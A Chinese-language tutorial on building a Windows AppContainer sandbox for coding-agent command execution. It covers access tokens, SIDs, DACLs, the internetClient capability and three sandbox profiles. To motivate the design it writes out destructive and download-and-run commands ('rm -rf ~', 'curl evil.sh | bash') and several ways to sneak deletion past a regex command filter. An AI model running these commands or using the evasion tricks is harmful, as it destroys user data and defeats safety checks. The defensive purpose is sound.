







# Windows Agent 硬沙箱：用 AppContainer 把普通进程变成 OS 级安全边界

> 关键词：Agent Sandbox · AppContainer · Token · SID · Capability · ACL · Low Integrity
> 适用读者：没有 Windows 安全背景、正在给 Coding Agent 做执行沙箱的开发者。
> 阅读目标：读完你不需要背 AppContainer 的 API，但你能回答——**为什么 Agent 需要硬沙箱？AppContainer 是怎么把一个普通 Windows 进程变成受 OS 强制约束的沙箱？三个 SandboxProfile 该怎么映射？**

---

## 问题：Agent 要执行你的代码，你敢让它随便跑吗？

先从一个真实场景开始。

你写了一个 Coding Agent——它像 Claude Code、Codex 一样，能读你的代码、改文件、跑测试、装依赖。它的核心是一个 ReAct 循环：模型决定 → 调用工具 → 观察结果 → 再决定。其中最危险的工具就是 **执行命令**：`python test.py`、`npm install`、`git push`……

问题来了：**Agent 执行的命令，本质上是你未知的代码。** 可能是 LLM 自己生成的（可能写错）、可能是从网上拉的脚本、也可能是被 prompt injection 诱导的恶意命令。它跑在你的机器上、用你的权限、访问你的文件。

如果它要执行 `rm -rf ~` 或者 `curl evil.sh | bash`，你能接受吗？显然不能。

于是你加了第一道防线——`CommandFilter`。它会在命令真正执行前，用正则分析命令文本：

```python
# 伪代码
if "rm" in cmd and "-rf" in cmd:
    block("检测到删除命令")
if "curl" in cmd:
    block("断网 profile 禁止联网")
```

但这道防线有个致命问题，我把它叫做 **软沙箱**。

### 软沙箱：用"文字游戏"做安全检查

`CommandFilter` 检查的是**命令的文本**，不是**命令的行为**。这就像一个门卫，不是检查你包里到底有没有刀，而是听你"说"你要带什么进去。

绕过它太容易了：

```bash
# CommandFilter 看到的是 "rm"，但真正执行的可能是别的
rm --one-file-system -rf ~/.config   # 换个参数躲过匹配
/bin/rm -rf ~                       # 换个路径写法
a=rm; $a -rf ~                      # 变量间接调用，文本分析根本看不到
printf "rm" | bash -s -- -rf ~       # 命令从管道进来
```

更本质的问题是：即使 CommandFilter 完美，它也是**进程内部**的逻辑。一个恶意命令完全可以**先绕过过滤逻辑**再搞破坏——因为过滤器和被执行的命令在同一个进程/同一层信任域里。**"安全由检查者执行，而检查者本身也受被检查者的影响"，这就是软沙箱的结构性缺陷。**

一句话：**软沙箱靠"猜"，硬沙箱靠"强制"。**

---

## 直觉：硬沙箱到底硬在哪？

软沙箱的问题是"检查是软的"。那硬沙箱的直觉就是：**把"安全检查"从进程内部，搬到操作系统内核里去。**

想象一下，不是"门卫听你说带了什么"，而是**你在进门前被强制套上一个物理笼子**——笼子决定了你能到达哪个房间、能碰哪些东西，无论你怎么喊、怎么说，笼子就是打不开。

Windows 的 **AppContainer** 就是这样的笼子。它是一个**进程级的、由操作系统内核强制的安全边界**。进程一旦以 AppContainer 身份运行，内核在给它放行任何资源访问（读文件、开网络、访问注册表）之前，都会强制检查"这个容器有没有权限"，**而不是相信进程自己说它要干什么**。

> 软沙箱 vs 硬沙箱的关键区别，就一句话：
> - **软沙箱**：在进程外"拦"命令的文本描述（可被绕过、需要猜）。
> - **硬沙箱**：由内核给进程一个受限身份，从系统底层"掐断"越权访问（无法绕过、无需猜）。

用一张图说明：



---

## 原理：Windows 凭什么判定"你能访问这个资源"？

在深入 AppContainer 之前，你必须先搞懂 Windows 普通权限模型是怎么工作的。AppContainer 只是在这个模型上**多加了一个受限身份**。如果这部分你已经有基础，可以跳到第 4 节。

### 3.1 Token：你进场时发的"通行证"

每个 Windows 进程，都挂着一个 **访问令牌（Access Token）**。它记录了"这个进程以什么身份运行"——你登录时系统给你一个令牌，你启动的每个进程都复制这份令牌。

令牌里装着三样关键东西：

- **User SID**：你是谁（比如 `S-1-5-21-xxx-500` 代表 Administrator）。
- **Group SIDs**：你在哪些组里（`Users`、`Everyone` 等）。
- **Privileges**：你有何特权（比如 `SeDebugPrivilege` 调试他人进程）。

```text
进程 → Access Token
        ├── User SID   : S-1-5-21-...-500 (Administrator)
        ├── Group SID  : S-1-5-21-...-513 (Users)
        ├── Group SID  : S-1-1-0          (Everyone)
        └── Privileges : SeDebugPrivilege, SeBackupPrivilege ...
```

**Token 就是你的"身份证"**，内核访问任何资源前都要先验你的身份证。

### 3.2 SID：系统里每个人的唯一编号

SID（Security Identifier，安全标识符）是 Windows 给每个**主体**（用户、组、机器）分配的唯一编号。它长得像 `S-1-5-21-<域ID>-<用户ID>`。SID 是硬编码的、全局唯一的——系统靠它精确匹配"谁"，而不是靠"用户名"这种可能重名的东西。

AppContainer 的关键在于：**它也有一个自己的 SID，叫做 AppContainer SID（包 SID）。** 这个 SID 是独立的、独一无二的，不属于你，也不属于你的组。

### 3.3 ACL / DACL：资源的"门卫名单"

现在看资源这一侧。每个受保护对象（文件、目录、注册表键……）都挂着一张 **DACL（Discretionary Access Control List，自主访问控制列表）**。

DACL 就是这张资源的"门卫名单"，一行一行地写着：

```
<谁的 SID> → 允许/拒绝 → <什么权限>
```

例如一个文件 `C:\work\report.txt` 的 DACL 可能是：

```
Administrator(S-1-5-21-...-500) : Allow  FullControl
Users(S-1-5-21-...-513)         : Allow  Read
```

### 3.4 Access Check：内核怎么裁决

当进程 A 想访问文件 F 时，内核做的动作叫 **Access Check（访问检查）**：

1. 拿出进程 A 的 **Token**（里面所有 SID）。
2. 找出文件 F 的 **DACL**（门卫名单）。
3. 逐条比对：进程 A 的 SID 在名单里吗？授予了什么权限？
4. **所有条目取并集**，决定最终能做什么。

用一张图总结整个权限模型：



> 关键直觉：**进程能不能访问资源，不取决于进程"想不想"，而取决于它的 Token 里的 SID，是否出现在资源的 DACL 里。** 权限是"两边的匹配结果"，不是进程自带的属性。

---

## AppContainer 是什么：一个自带"真空身份证"的进程

现在，AppContainer 只做了一件事，但它很彻底——**它给进程发了一张几乎什么都没有的"真空身份证"。**

AppContainer 进程的 Token 里：

- **User SID**：被换成了一个**独立的 AppContainer SID**，不属于你的用户，不属于你的组。
- **几乎没有 Group SID**，没有你平时拥有的 Privileges。
- **Capability SID**：空，除非你显式授予。

然后，这张"真空身份证"配上一条铁律：

> **对象最终权限 = 你的 Token SID 授予 ∩ AppContainer SID 授予（取交集）。**

这条交集规则是 AppContainer 隔离的灵魂。它的含义是：**即使你的用户对某个文件有完全控制权，只要 AppContainer SID 没被授权，容器进程就访问不了。**

你可以理解为：

- 普通进程 = 你本人进场，凭你的工牌，进你所有能进的房间。
- AppContainer 进程 = **一个套着真空隔离服的访客**。它连你的工牌都没有（User SID 被换了），房间里任何门卫名单（DACL）上都没有它的名字 → 默认**所有房间都进不去**。想让进哪个房间，就得把它的 SID 显式加到那个房间的名单里。

### 4.1 和一堆"听起来很像"的东西区别开

初学者很容易把 AppContainer 和下面这些混为一谈，必须分清：

| 技术 | 本质 | 与 AppContainer 的区别 |
|---|---|---|
| **普通用户权限** | 进程以你的用户 Token 运行 | 有你的全部组 SID 和权限，能碰你所有能碰的资源 |
| **UAC 降权** | 标准用户（Medium IL）还是**你**，只是去掉了管理员特权 | Token 的 User SID 仍是你的，UAC 只是"你但没提权"；AppContainer 是"**不是你**" |
| **Job Object** | 把一组进程编组，限制 CPU/内存、杀掉整棵进程树 | 管的是**资源配额和生命周期**，不是**访问控制**；AppContainer 管的是"能碰什么" |
| **Docker 容器** | 独立文件系统视图 + 网络栈 + 隔离的进程命名空间 | AppContainer 没有独立文件系统，它**共享你机器的文件系统**，只是靠 ACL 让你访问不到 |
| **VM / Windows Sandbox** | 完整独立操作系统内核 + 虚拟化硬件隔离 | 最重；AppContainer 是轻量进程级，同一内核、同一文件系统，靠 SID/ACL 隔离 |

一句话记住：**Job Object 管"消耗多少"，Docker/VM 管"换个世界"，AppContainer 管"在同一个世界里，你是谁、能碰什么"。**

### 4.2 AppContainer 还额外提供了什么

除了真空 Token 和交集规则，AppContainer 还有几个强化手段：

- **Capability（能力 SID）**：一种特殊的、语义化的授权单元。比如授予 `internetClient` 才允许出站网络。能力是"开一个口子"的最干净方式。
- **Low Integrity（低完整性级别）**：Windows 有"完整性级别"（Integrity Level，IL）——TrustedInstaller > System > High（管理员）> Medium（普通用户）> **Low**。AppContainer 进程运行在 **Low IL**，意味着它对 High/Medium 级别的对象连"写"都做不到，即便 ACL 偶尔放行，完整性检查也会兜底。
- **窗口 / 剪贴板 / 进程隔离**：AppContainer 默认不能随意访问其他窗口、不能访问更高 IL 的进程，降低被"注入"和"读取"的风险。

---

## 为什么 AppContainer 能限制文件系统访问

现在把第 3 节和第 4 节的机制串起来，回答"为什么它能限制文件访问"。

假设你要让 Agent 只能访问 `C:\agent-workspace`，访问不了 `C:\Users\You\Documents\secrets.txt`。

AppContainer 做到这件事，靠的是**三个环环相扣的默认拒绝**：

1. **Token 侧默认**：容器进程的 Token 里只有一个 AppContainer SID，没有你的用户 SID、没有你的组 SID。
2. **资源侧默认**：`secrets.txt` 的 DACL 只授权了 `You` 和 `Users`，**没有这个容器 SID**。
3. **交集裁决**：Access Check 取交集 = 空 → **拒绝**。

```text
secrets.txt 的 DACL:
   You  : Allow FullControl     ← 有，但你不在容器 Token 里
   Users: Allow Read            ← 有，但容器不在 Users 组
   <AppContainer SID>: 无        ← 交集为空
   ------------------------------------------------
   容器进程请求读 secrets.txt  → 交集为空 → 拒绝访问
```

而 `C:\agent-workspace` 你**显式**把容器 SID 加进 DACL：

```text
agent-workspace 的 DACL:
   You  : Allow FullControl          ← 有
   <AppContainer SID>: Allow Read&Write  ← 显式添加，交集命中
   ------------------------------------------------
   容器进程请求写 agent-workspace → 交集 = Read&Write → 允许
```

这就是"**默认全拒 + 显式放行**"的最小权限模型。Agent 就算跑 `python evil.py`、里面写 `open(r"C:\Users\You\Documents\secrets.txt").read()`，结果也只是 `Permission denied`——**它连读都读不到，更别说写。**

---

## 网络隔离：`internetClient` 与它的边界

### 6.1 为什么"不授予能力"就等于断网

网络和文件系统用同一套能力机制，但更干净：**AppContainer 的出站网络访问，由 Capability 直接控制。**

Windows 预定义了一批能力 SID，其中一个是：

- **`internetClient`**：允许通过 WinSock/HTTP 等标准接口发起出站网络连接。

原理：容器进程发起 `connect()` 时，内核会检查它的 Token 里有没有 `internetClient` 这个 Capability SID。**没有 → 连接直接被内核拒绝**，返回类似 `WSAEACCES`（Permission denied）。这是内核层面的强制，不是应用层的拦截。



这正是"**内核级断网**"的含义：LLM 判断错没关系、命令文本再怎么混淆也没关系——`connect()` 这个系统调用本身就过不去。Agent 想 `curl evil.com`，唯一结果是失败。

### 6.2 这个"断网"的实际边界（别过度承诺）

必须诚实说明 `internetClient` 的边界，不能把它说成万能断网：

- ✅ **标准出站连接被拦**：HTTP/HTTPS、socket、`curl`/`wget` 等正常走 WinSock 的出站连接，会被拒。
- ⚠️ **AppContainer 仍可进行环回（loopback）通信**：容器内进程互相通信、连接本机 `localhost` 的服务，默认通常是允许的（这也是 Chrome 渲染进程能在沙箱里和浏览器主进程通信的方式）。
- ⚠️ **网络隔离 ≠ 完全离线**：如果该 Agent 跑在 `danger-full` 档位（脱离 AppContainer 裸跑用户权限），那网络根本没被沙箱管——`internetClient` 的隔离只对前两档（仍在 AppContainer 内的进程）有意义；它只能管"这层能力没开"，不能阻止已经打开的能力被滥用。
- ❌ **它不做内容审计**：`internetClient` 只管"能不能连"，不管"连哪里、传什么"。真正的流量审计要靠更外层（如系统代理策略）——这是**上层策略**的事，不是 AppContainer 的本职。
- ❌ **不是防火墙**：它的语义是"这进程天生没有联网资格"，跟 Windows Defender Firewall 按端口/程序放行的模型不同，两者是互补不是替代。

所以准确的说法是：**`internetClient` 给 Agent 提供了一层"默认无出站网络资格"的内核边界**——对"Agent 不该联网"这个需求而言，这层已经足够强，但它不审计流量、不阻止环回、也不替代防火墙。

---

## Agent 场景：给 Agent 建一个专属 Workspace

现在进入实战。核心问题是：**怎么让 Agent 只访问它的 Workspace，而访问不了别的？**

### 7.1 建一个隔离的 Workspace

我们给 Agent 一个专属目录。这个目录就是 Agent 的"全世界"：

```text
C:\agent-workspace\  ← Agent 只能在这里读、写、执行
```

Agent 在 `read-only` / `workspace-write` 这两档下，每执行一条命令都以一个 **AppContainer 进程**运行——进程的工作目录（cwd）和可写范围，都锚定在这个 Workspace 上（`danger-full` 档不创建 AppContainer 进程，直接以用户权限跑，见后文）。

### 7.2 授权容器访问 Workspace（ACL）

光有目录不够，还要让容器进程"够得着"它。这需要往 Workspace 及其**父目录链**的 DACL 里添加容器 SID 的 ACE。

- **Workspace 目录本身**：给容器 SID 加"读写 + 遍历"权限。
- **父目录链**（比如 `C:\` 到 `C:\agent-workspace` 的每一级）：必须给容器"列出目录 + 遍历"的权限，否则路径解析到中途就被拒——**授权时只给叶子目录、忘了父链，是最常见的坑**。
- **防继承污染**：用 `PROTECTED_DACL_SECURITY_INFORMATION` 替换 DACL 时**阻止继承**。否则父目录的 ACL 规则会"溜进"子目录，可能意外放行容器访问它不该碰的地方，或者反过来覆盖你精心设的权限。

### 7.3 如何给 AppContainer SID 授予"任意文件的读"

既然读也默认拒绝，那"让 Agent 能读任意文件"就要把读取权限授予容器 SID。标准流程是**修改目标文件/目录的 DACL**，追加一条允许容器 SID `FILE_GENERIC_READ` 的 ACE。核心是四个 API：

```c
// ① 从 AppContainer 名称派生包 SID
DeriveAppContainerSidFromAppContainerName(AppContainerName, &pAppContainerSid);

// ② 取出目标文件当前的 DACL
GetNamedSecurityInfoW(FilePath, SE_FILE_OBJECT, DACL_SECURITY_INFORMATION,
                      NULL, NULL, &pOldDACL, NULL, &pSD);

// ③ 构造一条"允许读"的 ACE
EXPLICIT_ACCESS ea = {0};
ea.grfAccessPermissions = FILE_GENERIC_READ;        // 授予"读"
ea.grfAccessMode         = GRANT_ACCESS;
ea.grfInheritance        = NO_INHERITANCE;          // 仅本文件
// 想对整棵目录树生效 → 用 SUB_CONTAINERS_AND_OBJECTS_INHERIT
ea.Trustee.TrusteeForm   = TRUSTEE_IS_SID;
ea.Trustee.ptstrName     = (LPWCH)pAppContainerSid;

// ④ 合并进新 DACL 并应用
SetEntriesInAcl(1, &ea, pOldDACL, &pNewDACL);
SetNamedSecurityInfoW(FilePath, SE_FILE_OBJECT, DACL_SECURITY_INFORMATION,
                      NULL, NULL, pNewDACL, NULL);
```

要点：

- **给"任意文件的读"**：最现实的做法是对一个**根目录**做**继承式**授权（`grfInheritance = SUB_CONTAINERS_AND_OBJECTS_INHERIT`），一次性把该目录下所有子目录/文件都授予读——不必逐文件授权。
- **给"任意文件"（全盘读）**：那意味着要对 `C:\` 这类根做继承式授权，等于"把读权限放开给容器 SID"——这会显著削弱隔离（容器能读你所有文件），只在可信环境下才考虑。**一般不建议全盘授读**，尽量收敛到 Agent 真正需要的源码树/系统目录。
- **Linux 侧对比**：Linux 的"读"默认是**允许**的（靠用户文件权限位决定，`unshare` 不阻断读）；Windows AppContainer 的"读"是**默认拒绝 + 显式授予**。这是两者心智模型的最大差异——**Linux 默认"能读"、Windows 默认"不能读"**。

### 7.4 决定"谁还能被碰"：白名单

AppContainer 默认全拒，意味着**真实工具链也会被卡死**——这是落地时最大的现实问题：

- `git` 想写 `C:\Users\You\.gitconfig` → 拒绝。
- `pip` 想写 `C:\Users\You\AppData\Local\pip\cache` → 拒绝。
- `ssh` 想读 `C:\Users\You\.ssh` → 拒绝（如果没有把读授予容器 SID）。

这些不是 AppContainer 的 bug，而是它"**只放行你显式授权的路径**"的正常结果。对策是**显式白名单**：把 Agent 确实需要的、但又在 Workspace 之外的最小路径集，逐个把容器 SID 加进 DACL（比如只授权 `~\.gitconfig` 这一个文件的读写，而不是整个用户目录）。

> 结论：**Workspace 隔离 + 最小白名单**，是"让 Agent 有得用"和"不让 Agent 越界"之间的平衡点。起步阶段宁可白名单收敛得小一点，也不要图省事把整个用户目录放进来。

---

## 三种 SandboxProfile 映射

现在把抽象的 AppContainer 机制，映射回 Agent 的产品语义——三种 `SandboxProfile`。这是整篇文章"落地"的关键：

| SandboxProfile | 文件系统 | 网络 | 沙箱状态 | 语义 |
|---|---|---|---|---|
| `read-only` | **任意读** / **禁写** | **拒绝**（无 `internetClient`） | AppContainer 内 | 只探索、读代码、跑只读测试，绝不改动任何东西 |
| `workspace-write` | **任意读** / **仅 Workspace 可写** | **拒绝**（无 `internetClient`） | AppContainer 内 | 开发主档：写代码、改文件、跑构建；但**不许联网** |
| `danger-full` | **完全访问**（用户能碰的它都能碰） | **放行** | **脱离沙箱**（裸跑用户权限） | 需要联网装依赖、访问远程服务时，用户显式接受风险 |



- **"读"在 AppContainer 里同样默认被拒绝，不是"天然可读"**。微软官方文档原话：AppContainer "使所有旧式、未修改的访问控制列表 (ACL) 对象**默认阻止**来自 AppContainer 进程的访问请求"。也就是说，**读和写一样，都需要在资源的 DACL 里显式授予 AppContainer SID**，否则交集为空、连读都读不到。所以你看到 Codex 的文件 ACL 里有 `CodexSandboxUsers`（你的 Windows 机器上 = AppContainer 对应的用户组）被授予「读取」——**这不是摆设，没有这一条，沙箱进程连读都做不了**。这与 Linux `chroot`/容器视图无关，只是 AppContainer"默认全拒"的表现。
- **"任意读"和"仅 Workspace 可写"的本质是"给容器 SID 授予了读所有文件，但只授予了写 Workspace"**。实现上，前两档为了让 Agent 能读任意文件（比如读源码、读系统配置），需要把这些文件的**读取**权限授予容器 SID（可对目录做**继承式**授权，`grfInheritance=SUB_CONTAINERS_AND_OBJECTS_INHERIT` 一次性覆盖整棵树）；而**写**只授予 Workspace 一个目录。所以 Agent 能 `cat ~/任何文件`（容器 SID 有读），但 `rm ~/Downloads/secrets.txt` 会 `Permission denied`（容器 SID 没有对该文件的写）。
- **前两档的差异在"写"（禁写 vs Workspace 写），读都是显式授予的，网络都断**——所以"改代码"和"联网"被拆开了。
- **`danger-full` 是脱离沙箱，不是"沙箱里放行所有限制"**。Codex 的 `danger_full_access` 档位（DeepWiki 验证：`完全禁用沙箱，不限制文件系统与网络访问`）就是直接以完整用户权限跑——AppContainer 进程不再被创建，Agent 等于"你本人在跑"。这是有意识的设计：**前两档是默认安全档，第三档是用户显式接受风险的逃生口**，不是"沙箱内的最高档"。

这里就能对上 Linux 侧的设计：`read-only`/`workspace-write` 对应 Linux 侧的 `unshare -n`（**无网命名空间 + 受限用户/组 SID**），`danger-full` 对应 Linux 侧不进入沙箱（**直接 `LocalExecutor` 裸跑，没有 `unshare`**）。**Windows 的 AppContainer 就是要达到与 Linux `unshare -n` 同等的 OS 级隔离效果，但 `danger-full` 不存在对应的"放行档"——它就是不用 AppContainer。**

---

## 实现：一次命令从 Agent 到内核的完整旅程

现在把所有环节串起来，看一条真实命令 `python test.py` 是怎么被执行的。这里体现 Agent 沙箱的**完整架构**——`LocalExecutor`、`CommandFilter`、`AppContainer`、OS 各司其职。

先看整体架构：



### 8.1 时序：`python test.py` 的完整旅程



### 8.2 每一层在做什么（职责边界）

| 层 | 职责 | 类型 | 拦得住什么 |
|---|---|---|---|
| **bash 工具** | 构造 `ExecRequest`，填入 `cwd` 和 `profile` | 业务 | — |
| **CommandFilter** | 正则静态分析命令文本 | 应用层（软） | 明显越界写、联网关键词、破坏性模式——给快速反馈 |
| **AppContainer Spawner** | 以受限 Token + 容器 SID 启动进程，组好 Capability | OS 接入 | 让内核接管强制 |
| **OS Access Check** | 按 Token SID ∩ 资源 DACL 裁决每一次资源访问 | 内核（硬） | 越界读/写文件、无 Capability 联网、高 IL 对象写入 |

注意 CommandFilter 和 AppContainer 的**分工**：

- CommandFilter **先拦一次**，价值是：快速返回清晰的报错（"沙箱拦截：越界写"），避免无谓地起一个注定失败的进程。
- 即使 CommandFilter 放行了，**AppContainer 才是真正的兜底**——`python test.py` 真去写 `C:\Users\...` 时，内核会拒绝，这是 CommandFilter 的"猜"做不到的。

